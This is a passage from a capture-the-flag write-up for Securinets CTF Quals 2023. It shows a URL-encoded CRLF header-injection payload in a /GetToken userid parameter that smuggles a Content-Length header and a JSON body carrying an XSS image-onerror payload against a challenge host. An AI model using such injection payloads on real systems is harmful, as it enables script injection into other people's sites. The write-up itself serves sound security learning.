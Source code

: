 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807124033.png)

> ***Update: Umm... Actually you don't need to inject the `Content-Length` response header, this is my mistake, see [## Update](#update).***

**Nice! We can intercept the `/GetToken` route's request and modify the `userid` GET parameter's value to the XSS payload in `/helloworld` route in host `escape.nzeros.me`:**
```
/GetToken?userid=overwriteUserid%3a%20foobar%0d%0aContent-Length%3a%2061%0d%0a%0d%0a%7b%22token%22%3a%22%3cimg%20src%3derrorpls%20onerror%3dalert(document.domain)%3e%22%7d
```
